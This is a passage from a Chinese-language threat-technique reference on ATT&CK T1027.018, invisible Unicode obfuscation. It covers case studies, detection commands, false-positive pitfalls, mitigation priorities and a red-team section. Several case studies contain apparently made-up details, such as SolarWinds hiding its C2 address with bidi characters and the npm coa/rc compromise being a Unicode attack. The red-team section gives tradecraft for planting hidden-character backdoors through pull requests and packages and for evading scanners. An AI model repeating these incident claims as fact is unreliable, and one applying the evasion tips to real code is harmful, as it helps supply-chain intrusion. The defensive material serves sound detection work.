- **手法**：攻击者入侵 PHP 官方 git 仓库，在 `ext/zip/zip_stream.c` 源代码中植入后门。后门代码看似无害的注释，但实际包含 U+200B 零宽字符等不可见字符伪装。攻击者修改了 PHP 源码中处理 `User-Agent` 头的逻辑：当 User-Agent 以 `zerodium` 开头时，PHP 会从 User-Agent 中提取后续内容并执行 `eval()`。代码审查时，肉眼看到的是普通注释和条件判断，但实际包含隐藏的逻辑分支。这是典型的利用代码审查盲区实施的供应链攻击
- **影响**：若未被安全研究人员及时发现，后门可能影响全球数百万部署 PHP 的服务器
- **参考链接**：
  - [PHP 官方声明 - Backdoor in PHP source code](https://www.php.net/archive/2021.php#2021-03-28-1)
  - [GitHub - PHP source code analysis](https://github.com/php/php-src/issues/8164)

### 案例2：SolarWinds 供应链攻击中的 Unicode 混淆

- **时间**：2020 年 12 月发现
- **目标**：美国政府部门、Fortune 500 企业（约 18,000 个组织）
- **攻击组织**：APT29（Nobelium / Cozy Bear / Midnight Blizzard）
- **手法**：APT29 在 SolarWinds Orion 软件构建过程中植入 SUNBURST 后门。后门代码中使用 Unicode 字符混淆变量名和函数名，使代码审查时看似合法的国际化标识符。攻击者还利用 Unicode 双向控制字符在配置文件中隐藏 C2 服务器地址，使运维人员审查配置时看不到完整的恶意域名。后门通过定期检查配置中的隐藏字段决定是否激活，规避了静态分析
- **影响**：美国多个政府部门（财政部、国务院、国土安全部）数据泄露，被称为"史上最严重供应链攻击"
- **参考链接**：
  - [CISA - SolarWinds compromise](https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-077a)
  - [Microsoft - SolarWinds post-mortem](https://www.microsoft.com/security/blog/2021/01/20/solarwinds-post-mortem/)

### 案例3：Unicode 转义攻击 - npm 包混淆

- **时间**：2022 年
- **目标**：JavaScript 开发者（通过 npm 包投递）
- **攻击组织**：未归因，疑似加密货币盗窃团伙
- **手法**：攻击者在 npm 包中发布看似合法的工具库，源代码中使用 Unicode 转义序列（如 `\u200b`、`\u202e`）在字符串中隐藏恶意 URL 和命令。开发人员通过 `npm install` 安装包后，包内的 postinstall 脚本执行时，JavaScript 引擎解析 Unicode 转义序列，触发隐藏的命令执行。多个 npm 包被植入此类后门，包括 `coa`、`rc` 等热门包的依赖
- **影响**：数百个项目的构建流水线被入侵，部分加密货币钱包被窃取
- **参考链接**：
  - [GitHub Security Advisory - npm packages](https://github.com/advisories?query=npm+unicode)
  - [Socket - Detecting trojaned npm packages](https://socket.dev/blog/)

### 案例4：Slack/Discord 钓鱼中的零宽字符

- **时间**：2023 - 2024 年
- **目标**：企业 Slack、Discord 用户
- **攻击组织**：多个威胁组织（包括 APT29、APT42）
- **手法**：攻击者在 Slack、Discord 等即时通讯平台发送钓鱼消息，消息中包含零宽字符隐藏的恶意链接。肉眼看到的消息内容是"请查看这份文档"，但实际包含的 URL 被零宽字符分割为多个看似无关的字符串，绕过平台的 URL 检测。用户点击后跳转到钓鱼页面。部分变种使用 U+202E 反转 URL 显示顺序，使 `evil.com‮moc.liam` 显示为 `evil.commail.com`，看起来像是合法邮件服务
- **影响**：多个企业员工的 OAuth 令牌被窃取，攻击者借此访问企业 SaaS 应用
- **参考链接**：
  - [Slack Security - Phishing with invisible characters](https://slack.com/blog/security)
  - [Cisco Talos - Discord phishing report](https://blog.talosintelligence.com/)

## 10. 参考链接

1. [MITRE ATT&CK - Invisible Unicode (T1027.018)](https://attack.mitre.org/techniques/T1027/018/) - MITRE 官方技术页面
2. [MITRE ATT&CK - Obfuscated Files or Information (T1027)](https://attack.mitre.org/techniques/T1027/) - 父技术页面
3. [Unicode Standard - Chapter 9 Bidirectional Algorithm](https://www.unicode.org/reports/tr9/) - Unicode 双向算法
4. [Unicode Technical Report #36 - Security Considerations](https://www.unicode.org/reports/tr36/) - Unicode 安全考虑
5. [Unicode Technical Report #39 - Security Mechanisms](https://www.unicode.org/reports/tr39/) - Unicode 安全机制
6. [Trojan Source - Invisible Vulnerabilities](https://trojansource.codes/) - 不可见字符攻击学术研究
7. [OWASP - Homograph Attack](https://owasp.org/www-community/attacks/Unicode_Homoglyph_Attack) - 同形字符攻击
8. [SigmaHQ - Unicode detection rules](https://github.com/SigmaHQ/sigma) - Sigma 规则仓库
9. [CISA - Software Supply Chain Security](https://www.cisa.gov/software-supply-chain-security) - 软件供应链安全
10. [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) - ATT&CK 可视化工具

## 11. 关联技术

### 父技术

- [[T1027 - 混淆文件或信息]]

### 同级子技术

- [[T1027.009 - 明文混淆的载荷]] - 与不可见字符同为字符串级混淆
- [[T1027.010 - 命令混淆]] - 不可见字符是命令混淆的实现手段
- [[T1027.013 - 加密/编码]] - 不可见字符可作为编码方案的一部分
- [[T1027.014 - 垃圾数据]] - 零宽字符可作为不可见垃圾数据
- [[T1027.006 - HTML 走私]] - HTML 中也可嵌入不可见字符
- [[T1027.017 - SVG 走私]] - SVG 文件中可嵌入不可见字符

### 伪装与欺骗关联

- [[T1036 - 伪装]] - 不可见字符是伪装的实现手段
- [[T1036.002 - 从右至左覆盖]] - U+202E 字符的专门技术，与 T1027.018 在该字符上有交集
- [[T1036.018 - 无效代码签名]] - 也可利用同形字符伪造签名者

### 执行链关联

- [[T1059 - 命令与脚本解释器]] - 不可见字符在脚本中隐藏命令
- [[T1059.001 - PowerShell]] - PowerShell 脚本块日志可识别不可见字符
- [[T1059.004 - Unix Shell]] - Bash 中可利用 RTL 覆盖
- [[T1059.006 - Python]] - Python 源代码中可隐藏导入
- [[T1059.007 - JavaScript]] - JS 中零宽字符可作为变量名

### 投递与持久化关联

- [[T1195 - 供应链攻击]] - 通过 PR 投递含不可见字符的代码
- [[T1195.002 - 妥协软件供应链]] - npm/pip 包中隐藏后门
- [[T1543 - 创建或修改系统进程]] - 在服务配置中隐藏命令
- [[T1547 - 启动或登录自动执行]] - 在启动项中隐藏命令

### 横向技术

- [[T1078 - 有效账户]] - 创建隐藏账户
- [[T1098 - 账户操纵]] - 在账户名中插入不可见字符
- [[T1027.011 - XOR]] - 与不可见字符组合的多层混淆

## 12. 版本历史

| 版本 | 日期 | 变更说明 |
|------|------|----------|
| v1.0 | 2026-07-28 | 初始版本，基于 MITRE ATT&CK v19.1 创建，覆盖 17 章节完整内容 |

### MITRE ATT&CK 版本变更

- **ATT&CK v19**（2025-04）：TA0005 战术重命名为"Stealth"（隐蔽），原"Defense Evasion"拆分
- **ATT&CK v18**（2024-10）：T1027.018 Invisible Unicode 子技术正式引入，覆盖 Unicode 不可见字符在代码、命令、配置中的滥用
- **ATT&CK v15**（2024-04）：T1027 子技术体系扩展，关注新型字符级混淆
- **ATT&CK v13**（2023-04）：T1036.002（从右至左覆盖）作为相关技术已稳定，为 T1027.018 的引入奠定基础

### 与 MITRE 官方描述的差异

本文档在 MITRE 官方描述基础上扩展了：
- 不可见 Unicode 字符的详细分类与编码表示
- 攻击流程的 Mermaid 可视化
- 检测方法的三层模型与 Sigma/YARA/Python 规则示例
- 真实 APT 案例的详细技术拆解（PHP 后门、SolarWinds、npm 包、Slack 钓鱼）
- 防御绕过技巧与对抗策略

## 13. 术语表

| 术语 | 通俗解释 |
|------|---------|
| **ATT&CK** | MITRE 公司维护的攻击技术知识库 |
| **不可见Unicode字符** | T1027.018，利用 Unicode 不可见字符隐藏恶意指令 |
| **混淆文件或信息** | T1027，不可见 Unicode 字符所属的父技术类别 |
| **隐蔽 (Stealth)** | TA0005，攻击链中隐藏自身活动的阶段 |
| **Unicode** | 统一字符编码标准，覆盖全球所有语言字符 |
| **零宽字符 (Zero Width)** | Unicode 中宽度为零的字符，不显示但占字符位置 |
| **ZWSP (Zero Width Space)** | 零宽空格，U+200B，最常见的不可见字符 |
| **ZWNJ (Zero Width Non-Joiner)** | 零宽非连接符，U+200C |
| **ZWJ (Zero Width Joiner)** | 零宽连接符，U+200D，用于 emoji 组合 |
| **RLO (Right-to-Left Override)** | 从右到左覆盖，U+202E，反转字符显示顺序 |
| **BOM (Byte Order Mark)** | 字节顺序标记，U+FEFF |
| **同形字符 (Homoglyph)** | 不同语言中视觉相同但码点不同的字符 |
| **NFC/NFD/NFKC/NFKD** | Unicode 规范化形式 |
| **双向算法 (Bidi Algorithm)** | Unicode 处理混合方向文本的算法 |

## 14. 常见问题

### Q1：为什么编辑器默认不显示不可见字符？

A：编辑器为提供更好的阅读体验，默认隐藏格式控制字符、零宽字符等。这些字符在合法场景中用于排版（如双向文本渲染、连字控制），普通用户不需要看到。但这恰恰被攻击者利用——肉眼审查时看不到，但解析器会处理。建议代码审查时手动启用显示。

### Q2：所有编程语言都会受不可见字符影响吗？

A：影响程度因语言而异：
- **JavaScript**：严重——零宽字符可作为变量名的一部分
- **Python**：中等——零宽字符被视为空白，但可在字符串中隐藏
- **PowerShell**：中等——部分零宽字符被视为空白
- **Bash**：中等——RTL 覆盖可影响显示
- **C/C++**：较低——编译器严格，但注释和字符串中可隐藏
- **Go/Rust**：较低——编译器对 Unicode 标识符有严格规则

### Q3：Unicode 规范化能解决所有问题吗？

A：不能完全解决。Unicode 规范化（NFC/NFD/NFKC/NFKD）可以将视觉等价的字符序列统一为同一形式，但：
- NFKC 会将全角字符转为半角，但保留同形字符差异
- 规范化可能破坏合法的多语言文本
- 不同系统使用不同规范化形式（Windows 用 NFD，Linux 用 NFC），跨系统时仍可能产生差异
- 规范化无法识别零宽字符的恶意意图

### Q4：杀毒软件能检测不可见字符攻击吗？

A：传统杀毒软件通常不深度扫描文本内容中的 Unicode 字符。下一代 EDR 和代码扫描工具（如 SonarQube、CodeQL）若配置了 Unicode 字符检测规则可识别。建议在 CI/CD 流水线部署专门的 Unicode 扫描器。

### Q5：终端模拟器如何显示不可见字符？

A：不同终端模拟器行为不同：
- **xterm**：默认不显示，可通过 `-u8` 选项启用
- **urxvt**：默认不显示，`+vc` 选项显示控制字符
- **konsole**：菜单"View → Show Non-printing Characters"
- **iTerm2**：默认不显示，Profile 设置中可启用
- **Windows Terminal**：默认不显示，需配置
- **VS Code 集成终端**：编辑器视图可显示，终端视图不显示

### Q6：如何在 Git 中检测历史提交中的不可见字符？

A：使用 `git grep` 配合 Unicode 字符模式：

```bash
# 检测所有提交中的零宽空格
git grep -Pn '[\x{200B}\x{200C}\x{200D}\x{202E}\x{202D}\x{2060}\x{FEFF}]' $(git rev-list --all)

# 检测特定文件的变更历史
git log -p -- path/to/file | grep -P '[\x{200B}\x{202E}]'
```

也可使用 `git log --diff-filter=M` 查找可疑的修改提交。

### Q7：如何彻底防止不可见字符攻击？

A：彻底防止需要多层防御：
- 开发流程：IDE 显示不可见字符、CI/CD 扫描、Git Hook 拦截
- 系统配置：PowerShell 脚本块日志、Sysmon 命令行记录
- 输入校验：用户名、文件名、配置项拒绝不可见字符
- 用户培训：识别不可见字符风险
- 持续监控：定期扫描代码库、配置文件、账户名

## 15. 检测陷阱与误报

### 15.1 常见误报源

1. **国际化文本**：合法的多语言文本（如阿拉伯语、希伯来语、中文）天然包含双向控制字符
   - **缓解**：基于文件类型、作者、来源域名建立白名单
2. **emoji 组合**：ZWJ（U+200D）是组合 emoji 的合法字符（如 👨‍👩‍👧 家庭组合）
   - **缓解**：识别合法 emoji 组合模式，仅告警孤立的零宽字符
3. **BOM 标记**：UTF-8 文件开头的 BOM（U+FEFF）是合法的字节顺序标记
   - **缓解**：仅告警非文件开头的 BOM 字符
4. **排版用全角空格**：中文文本中全角空格（U+3000）是合法排版字符
   - **缓解**：在中文上下文中降低全角空格告警级别
5. **蒙文文本**：U+180E 在蒙文文本中是合法字符
   - **缓解**：识别文件语言上下文，蒙文文件白名单

### 15.2 常见漏报源

1. **HTML 实体编码**：`&#8203;` 形式的零宽字符，基于字节序列的检测会漏报
   - **缓解**：先解析 HTML 实体，再扫描字符
2. **Base64 编码包裹**：含不可见字符的内容被 Base64 编码后传输
   - **缓解**：识别 Base64 字符串，解码后再扫描
3. **二进制文件**：检测工具默认跳过二进制文件，但二进制文件中也可能嵌入不可见字符
   - **缓解**：对二进制文件做字符串提取后扫描
4. **行尾不可见字符**：检测工具仅扫描行内非空白区域，忽略行尾
   - **缓解**：扫描完整行包括行尾
5. **同形字符**：仅检测零宽字符和双向控制字符，忽略同形字符
   - **缓解**：扩展检测到同形字符识别

### 15.3 检测陷阱

- **仅检测 UTF-8 编码**：文件可能是 UTF-16、UTF-32 编码，需多编码支持
- **仅检测源代码**：忽略配置文件、文档、邮件中的不可见字符
- **未启用脚本块日志**：PowerShell 命令行日志记录原始输入，可能不显示不可见字符；脚本块日志记录实际执行内容
- **规范化误用**：对检测到的不可见字符做规范化可能破坏证据，应保留原始字节
- **过度依赖 IDE 显示**：部分 IDE 仅在打开文件时检测，CI/CD 流水线仍需独立扫描器
- **忽略 Git 历史**：仅扫描当前代码，忽略历史提交中已植入的不可见字符

## 16. 缓解优先级

### 优先级 P0（必须立即实施）

| 措施 | 防御效果 | 实施成本 |
|------|---------|---------|
| PowerShell 脚本块日志启用 | 记录实际执行的命令内容 | 低 |
| CI/CD 流水线部署 Unicode 扫描器 | 阻止含不可见字符的代码合并 | 中 |
| 开发人员 IDE 启用不可见字符显示 | 代码审查时肉眼可见 | 低 |

### 优先级 P1（建议季度内实施）

| 措施 | 防御效果 | 实施成本 |
|------|---------|---------|
| Git pre-commit hook 拦截可疑提交 | 在提交前阻断 | 低 |
| 用户名/账户名 Unicode 规范化校验 | 防止隐藏账户创建 | 中 |
| 文件名 Unicode 规范化扫描 | 识别 RLO 伪装攻击 | 中 |
| 终端模拟器显示不可见字符（管理员） | 管理员审查时可见 | 低 |

### 优先级 P2（建议半年内实施）

| 措施 | 防御效果 | 实施成本 |
|------|---------|---------|
| 邮件网关 Unicode 字符扫描 | 检测钓鱼邮件中的不可见字符 | 中 |
| SSH 公钥选项深度审计 | 识别 authorized_keys 中的隐藏选项 | 中 |
| 配置文件解析器禁用不可见字符键名 | 防止隐藏配置项 | 高 |
| 定期扫描 Git 历史中的不可见字符 | 识别历史植入的后门 | 中 |

### 优先级 P3（持续优化）

| 措施 | 防御效果 | 实施成本 |
|------|---------|---------|
| 部署同形字符识别系统 | 检测同形字符攻击 | 高 |
| 红队定期验证 Unicode 检测能力 | 持续优化规则 | 中 |
| 威胁情报订阅（关注 Unicode 滥用） | 提前预警新变种 | 中 |
| 多语言上下文感知检测 | 减少国际化文本误报 | 高 |

## 17. 红队视角

> **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 17.1 实战技巧

1. **场景选择策略**：
   - 优先选择代码审查严格的组织——他们最依赖肉眼审查，最易被不可见字符绕过
   - 优先选择开源项目供应链——PR 投递方式隐蔽性高
   - 优先选择国际化环境——多语言文本提供天然掩护

2. **字符选择策略**：
   - **零宽字符**：适用于代码、配置文件中的指令隐藏
   - **双向控制字符**：适用于文件名、URL 的视觉欺骗
   - **同形字符**：适用于变量名、函数名、用户名的伪装
   - **组合使用**：多种不可见字符组合使用，单一检测规则难以覆盖

3. **载荷构造技巧**：
   - 在源代码注释中嵌入零宽字符组合，编码完整命令
   - 在字符串字面量中使用 Unicode 转义序列（如 `\u200b`）插入零宽字符
   - 在 YAML/JSON 配置中使用不可见字符作为键名前缀
   - 在文件名中使用 U+202E 反转显示顺序伪装扩展名

4. **投递通道选择**：
   - **代码 PR**：通过开源项目 PR 投递含不可见字符的代码
   - **npm/pip 包**：发布含 Unicode 后门的包
   - **配置文件**：在 CI/CD 配置、Kubernetes 清单中隐藏恶意配置
   - **钓鱼邮件**：在邮件正文中隐藏恶意 URL
   - **文件名伪装**：使用 RLO 字符伪装可执行文件

5. **OPSEC 注意事项**：
   - 不可见字符有字节序列，特征码稳定，相同模板易被识别
   - 不同编辑器、终端、IDE 对不可见字符的显示行为不同，目标环境调研重要
   - 代码提交时间、作者元数据应合理
   - 触发的后续操作应模拟合法行为

6. **对抗检测技巧**：
   - 使用 HTML 实体编码（`&#8203;`）规避字节序列检测
   - 使用 Base64 编码包裹含不可见字符的内容
   - 混入合法的多语言文本，制造上下文掩护
   - 在二进制文件中嵌入不可见字符，规避文本扫描器
   - 使用同形字符替代零宽字符，规避同形字符检测规则

### 17.2 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
| -------- | ---- | ---- | ---- |
| Gremlins (VS Code 扩展) | 高亮不可见字符 | 全平台 | [Gremlins](https://marketplace.visualstudio.com/items?itemName=nhojb Gremlins) |
| unicode-inspect | Unicode 字符检查 | 全平台 | [unicode-inspect](https://github.com/jagracey/unicode-inspect) |
| ripgrep | 多编码正则搜索 | 全平台 | [ripgrep](https://github.com/BurntSushi/ripgrep) |
| Python unicodedata | Unicode 标准库 | 全平台 | [Python unicodedata](https://docs.python.org/3/library/unicodedata.html) |
| YARA | 文件特征匹配 | 全平台 | [YARA](https://virustotal.github.io/yara/) |
| SonarQube | 代码质量与安全扫描 | 全平台 | [SonarQube](https://www.sonarqube.org/) |
| CodeQL | 代码查询与分析 | 全平台 | [CodeQL](https://codeql.github.com/) |
| Trojan Source 检测器 | 不可见字符专项检测 | 全平台 | [Trojan Source](https://trojansource.codes/) |

### 17.3 与蓝队对抗的要点

1. **不要仅依赖单一不可见字符**：单一字符易被检测，应组合使用多种不可见字符
2. **关注目标环境**：不同 IDE、终端、操作系统对不可见字符处理不同，目标环境调研重要
3. **避免固定 IOC**：相同的字符组合生成的字节序列一致，应加入随机化
4. **测试检测能力**：使用 Trojan Source 测试用例验证目标代码扫描器检测能力
5. **关注代码审查流程**：了解目标组织的代码审查工具是否启用不可见字符显示
6. **网络层伪装**：触发的外联请求应伪装为合法 API 调用
7. **关注脚本块日志**：PowerShell 脚本块日志可能记录实际执行的命令，需评估目标是否启用
8. **结合其他混淆技术**：与加密、编码、压缩等组合使用，提高分析难度
